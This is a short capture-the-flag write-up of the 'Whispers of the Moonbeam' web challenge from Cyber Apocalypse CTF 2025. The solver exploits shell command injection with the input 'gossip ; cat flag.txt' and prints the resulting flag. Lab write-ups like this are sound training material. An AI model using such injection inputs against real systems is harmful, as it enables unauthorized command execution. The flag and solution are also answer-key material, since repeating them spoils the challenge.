 # Cyber Apocalypse CTF 2025: Tales from Eldoria

## Whispers of the Moonbeam
> In the heart of Valeria's bustling capital, the Moonbeam Tavern stands as a lively hub of whispers, wagers, and illicit dealings. Beneath the laughter of drunken patrons and the clinking of tankards, it is said that the tavern harbors more than just ale and merriment—it is a covert meeting ground for spies, thieves, and those loyal to Malakar's cause. The Fellowship has learned that within the hidden backrooms of the Moonbeam Tavern, a crucial piece of information is being traded—the location of the Shadow Veil Cartographer, an informant who possesses a long-lost map detailing Malakar’s stronghold defenses. If the fellowship is to stand any chance of breaching the Obsidian Citadel, they must obtain this map before it falls into enemy hands.


- **Category**: Web 
- **Difficulty**: Very Easy
- **Author**: Ventilatore


## Writeup


website with a terminal
```bash
🏰 Welcome to the tavern! Type "help" for available commands.
```
help
```bash
gossip - 📜 Listen to tavern whispers & rumors
observe - 👀 Survey the patrons & surroundings
examine - 🪞 Reflect upon your identity
help - 📖 Review the available commands
clear - 🧹 Wipe the slate clean
start - 🎲 Begin a game of chance or skill
```
gossip
```bash
🏴‍☠️ 'A merchant returned from Umbar with strange trinkets and fearful tales... things best left unsaid.'
📜 'A dark power stirs in the East... whispers of an ancient evil.'
🕯️ 'The White Council gathers in secret... what could they be planning?'
🐴 'Riders in black were seen near Bree... silent as the grave.'
🍺 'A knight in exile drinks alone, his past too heavy to share... only the bottom of his tankard listens.'

eslint.config.js
flag.txt
index.html
node_modules
package.json
postcss.config.js
public
server
src
tailwind.config.js
tsconfig.app.json
tsconfig.json
tsconfig.node.json
vite.config.ts
yarn.lock
```

cat flag.txt doesn't work

This sentence is written on the web page
```bash
Tip: Use ↑↓ for history, Tab for completion, ; for command injection
```

so but doing a random command with ; cat flag.txt
we get the flag
```bash
gossip ; cat flag.txt
```

>HTB{Sh4d0w_3x3cut10n_1n_Th3_M00nb34m_T4v3rn_d3ffb51e6ccadac4dd46aefbc0a54ca1}